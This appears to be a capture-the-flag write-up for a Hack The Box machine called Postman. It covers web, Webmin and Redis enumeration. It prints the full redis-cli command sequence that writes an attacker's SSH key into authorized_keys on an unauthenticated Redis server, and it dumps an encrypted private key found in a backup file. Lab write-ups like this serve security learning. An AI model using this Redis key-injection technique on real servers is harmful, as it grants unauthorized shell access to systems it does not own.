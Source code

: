 Ennumerating Port 80 we can see a basic website that shows us a page that is in development but nothing really intresting pops out for me doing a dirbust on the website we see the following directories open, ennumerating them we still dont get any thing that intresting.

Ennumerating port 10000 we can see there is Webmin which uses the hostname of Postman and we can edit our /etc/hosts file but it needs credentials which we dont have 

Ennumerating Reddis, i dont really know how to ennuemrate reddis so lets look up an article and i foudn this one : https://book.hacktricks.xyz/pentesting/6379-pentesting-redis i tried the webshell exploit but didnt work but the ssh one seems to be possitive.

```
cat publickey | redis-cli -h 10.10.10.160 -x set ssh_key
OK
nickapic@alohaoy ~/htb/boxes/postman => redis-cli -h 10.10.10.160
10.10.10.160:6379> CONFIG SET dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> CONFIG SET dbfilename authorized_keys
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379>
```

Running Linpeas.sh we see 
```bash
[+] Backup files                                                                                                                                                                                                                             
-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak 
```
Which if you cat out is the following maybe we can try logging in with this id_rsa as matt

```bash
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```
